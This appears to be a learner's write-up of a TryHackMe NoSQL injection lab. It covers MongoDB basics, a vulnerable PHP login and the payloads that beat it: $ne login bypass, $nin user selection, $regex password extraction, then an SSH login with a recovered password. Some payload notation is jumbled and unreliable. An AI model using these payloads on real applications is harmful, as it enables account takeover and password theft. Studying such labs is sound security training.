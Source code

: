 #SQL 

- https://tryhackme.com/room/nosqlinjectiontutorial

foxy proxy and intruder on
send request to Repeater > make edits > send 
## Basics

MongoDB 
MongoDB is another database where you can store data in an ordered way, get subsets of data, relational DB but data is stored in documents NOT tables

these documents as a simple dictionary structure where key-value pairs are stored

```mongoDB
{
	"_id": ObjectId("5f077332de2cdf808d26cd74")
	"username" : "lphillips", 
	"first_name" : "Logan", 
	"last_name" : "Phillips", 
	"age" : "65", 
	"email" : "lphillips@example.com"
}
```

MongoDB allows you to group multiple documents with a similar function together in higher hierarchy structures called collections for organizational purposes.
- collections == tables (relational DB)

all employee's documents grouped in collection called people
collections are grouped in databases 
- HR DB = {People Collection} {Payroll Collection} {Branches Collection}

```MongoDB
{"username": "lphillips", "fname":"logan","lname":"Phillips","age":65}
{"username": "asandlr", "fname":"angus","lname":"Sandler","age":34}
{"username": "aclarke", "fname":"anne","lname":"Clarke","age":42}
```

- https://www.mongodb.com/docs/manual/reference/operator/query/
- `$lt` = less than

Filter for 'Sandler'
- ` [lname => 'Sandler'] ` 
- 
Filter for 'age' < 50
- ` ['age' => ['$lt' =>'50'] ] `


## NoSQL Injection

`10.10.89.176`  login form

Unlike SQL injection, where queries were normally built by simple string concatenation, NoSQL queries require nested associative arrays.
- must be able to inject arrays into the app
- pass array variables using special syntax on HTTP request query string

```PHP
<?PHP
$con = new MongoDB\Driver\Manager("mongodb://localhost:27017")

if(isset($_POST) && isset($_POST['user']) && isset($_POST['pass'])){
	$user = $_POST['user'];
	$pass = $_POST['pass'];

	$q = new MongoDB\Driver\Query(['username' => $user, 'password' => $pass]);
	$record = $con -> executeQuery('myapp.login', $q);
	$record = iterator_to_array($record);

if(sizeof($record) > 0){
		$usr = $record[0];
		session_start();
		$_SESSION['loggedin'] = true;
		$_SESSION['uid'] = $usr -> username;
		header('Location: /menu.php');
		die();
	}
}
```

The web application is making a query to MongoDB, using the "`myapp`" database and "**login**" collection, requesting any document that passes the filter `**['username'=>$user, 'password'=>$pass]**`, where both **$user** and **$pass** are obtained directly from HTTP POST parameters

- ` $user = ['$ne'=>'xxxx'] `
- ` $pass = ['$ne'=>'yyyy'] `

## Bypass login screen

open Burp Suite, proxy foxy, enter invalid credentials , Intercept edit it then forward

entered `name:pass`
```
user=name&pass=pass&remember=on

--- change it 

user[$ne]=asdf&pass[$ne]=aweasdf&remember=on

```

- `admin: ************`
- `admin@nosql.int`

## Login as other users

with the former technique, we can only login as the first user returned by the database.

`$nin` matches none of the values in a array

 if we would want to log in as any user except for the user admin, we could modify our payload to look like this:
```
user[$nin][]=admin&pass[$ne]=aweasdf&remember=on

----
['username'=>['$nin'=>['admin'] ], 'password'=>['$ne'=>'aweasdf']]
```

- `pedro`
- `pcollins@nosql.int`
- non-admin user

```
user[$nin][]=admin&user[$nin][]=jude&pass[$ne]=awesf&remember=on

--
['username'=>['$nin'=>['admin', 'jude'] ], 'password'=>['$ne'=>'aweasdf']]


user[$nin][]=pedro&user[$nin][]=admin&pass[$ne]=admin&remember=on
```

- `john`
- `jsmith@nosql.int`

3 users

## Extract user passwords

we have access to all of the accounts in the application. However, it is important to try to extract the actual passwords in use as they might be reused in other services.

`$regex` operator 

ask the server a series of questions to recover passwords (like hangman game)

```
user=admin&pass[$regex]=^.{7}&remember=on     # error

user=admin&pass[$regex]=^.{5}&remember=on     # success

```
- a wildcard word of length 7
look for the Response Location to be not `/?err=1` 

we get a hit for `admin` password of length 5
```
user=admin&pass[$regex]=^c.....&remember=on  # fails

user=admin&pass[$regex]=^a.....&remember=on  
# success= (Response) Location: /sekretplace.php

```

admin has password of length 5 and starts with `a`

what is John's password ?
- 7 characters
```
user=john&pass[$regex]=^$.$.......$&remember=on

-- look for diff in length, 1 = 307 unlike others of 188
-- so 1st number of password is 1
- repeat process, each . is $.$ 1 at a time, replace with found number

10584312     correct!
```

  
One of the users seems to be reusing his password for many services. Find which one and connect through SSH to retrieve the final flag!
- there are 3 users: `admin, pedro, john`

```
user=pedro&pass[$regex]=^.{11}$&remember=on

-- then intruder
user=pedro&pass[$regex]=$.$..........&remember=on
-- repeat process of finding 1st $.$ replace it, next $.$

coolpass123
```

`ssh pedro@10.10.116.125` : `coolpass123`

- ` flag{N0Sql_n01iF3!} `


---
- https://www.youtube.com/watch?v=-gN3ZYOxXak&lc=Ugwl_1t_8doGAFQCQpZ4AaABAg